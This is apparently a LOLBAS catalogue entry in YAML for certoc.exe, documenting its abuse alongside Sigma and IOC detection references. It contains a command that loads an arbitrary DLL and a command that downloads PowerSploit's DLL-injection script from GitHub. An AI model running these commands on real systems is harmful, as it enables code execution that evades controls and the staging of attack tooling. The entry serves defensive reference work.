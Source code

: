 ```yaml
---
Name: CertOC.exe
Description: Used for installing certificates
Author: 'Ensar Samil'
Created: 2021-10-07
Commands:
  - Command: certoc.exe -LoadDLL "C:\test\calc.dll"
    Description: Loads the target DLL file
    Usecase: Execute code within DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows Server 2022
    Tags:
      - Execute: DLL
  - Command: certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
    Description: Downloads text formatted files
    Usecase: Download scripts, webshells etc.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\certoc.exe
  - Path: c:\windows\syswow64\certoc.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certoc_load_dll.yml
  - IOC: Process creation with given parameter
  - IOC: Unsigned DLL load via certoc.exe
  - IOC: Network connection via certoc.exe
Resources:
  - Link: https://twitter.com/sblmsrsn/status/1445758411803480072?s=20
  - Link: https://twitter.com/sblmsrsn/status/1452941226198671363?s=20
Acknowledgement:
  - Person: Ensar Samil
    Handle: '@sblmsrsn'
---
```

